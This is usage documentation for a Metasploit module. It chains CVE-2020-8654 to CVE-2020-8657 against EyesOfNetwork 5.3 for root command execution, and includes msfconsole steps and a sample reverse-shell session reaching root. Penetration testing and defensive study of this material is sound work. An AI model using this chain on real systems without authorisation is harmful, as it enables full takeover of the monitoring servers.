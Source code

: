 ## Introduction
This module exploits multiple vulnerabilities in EyesOfNetwork version 5.3 and prior in order to execute arbitrary commands as root.

The module first exploits a hardcoded admin API key in EyesOfNetwork API version 2.4.2 (CVE-2020-8657) in order to generate a valid access token and use it to create a new user with admin privileges. If the generated key is not valid, the admin API key is obtained via an SQL injection vulnerability affecting the same API version (CVE-2020-8656).

Next, the module authenticates as the newly created user in order to abuse a command injection vulnerability in the `target` parameter of the AutoDiscovery functionality within the EON web interface (CVE-2020-8654). Specifically, it writes an Nmap NSE script containing the payload to disk, and then activates this script by launching an Nmap host discovery scan against the target. This approach achieves privilege escalation because the default sudo configuration permits the 'apache' user to execute Nmap as root (CVE-2020-8655).

The module only works with HTTPS, so SSL is enabled by default. Valid credentials for a user with administrative privileges are required. However, this module can bypass authentication via two methods, i.e. by generating an API access token based on a hardcoded key, and via SQLI. This module has been successfully tested on EyesOfNetwork 5.3 with API version 2.4.2.

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/linux/http/eyesofnetwork_autodiscovery_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set payload [payload]`
6. Do: `set LHOST [IP]`
7. Do: `exploit`

## Options

1.  `Proxies`. This option is not set by default.
2.  `RHOSTS`. To use: `set RHOSTS [IP]`
3.  `RPORT`. The default setting is `443`. To use: `set RPORT [PORT]`
4.  `SERVER_ADDR`. This option is not set by default.
5.  `SSL`. The default setting is `true`, because HTTPS is required for the module to work.
6.  `TARGETURI`. This option is the base path. `/` by default.
7.  `VHOST`. This option is not set by default.

## Payload Options
1. `LHOST`. To use: `set LHOST [IP]`
2. `LPORT`. The default setting is `4444`. To use: `set LPORT [PORT]`


## Scenarios

```
msf5 exploit(linux/http/eyesofnetwork_autodiscovery_rce) > show options

Module options (exploit/linux/http/eyesofnetwork_autodiscovery_rce):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       192.168.1.1     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        443              yes       The target port (TCP)
   SERVER_ADDR                   yes       EyesOfNetwork server IP address (if different from RHOST)
   SSL          true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                yes       Base path to EyesOfNetwork
   VHOST                         no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.2     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto


msf5 exploit(linux/http/eyesofnetwork_autodiscovery_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.2:4444 
[*] Using generated API key: a496fb1025187066dc1e4e56197bd2db1a23c565f42b98df8ff55698442b6476
[+] Authenticated as user kY7Qn1gr8L
[*] Sending payload (428 bytes) ...
[*] Command shell session 1 opened (192.168.1.2:4444 -> 192.168.1.1:45897) at 2020-02-19 15:30:31 +0100

id
uid=0(root) gid=0(root) groups=0(root)
```
## References
1. <https://www.exploit-db.com/exploits/48025>
2. <https://nvd.nist.gov/vuln/detail/CVE-2020-8654>
3. <https://nvd.nist.gov/vuln/detail/CVE-2020-8655>
4. <https://nvd.nist.gov/vuln/detail/CVE-2020-8656>
5. <https://nvd.nist.gov/vuln/detail/CVE-2020-8657>
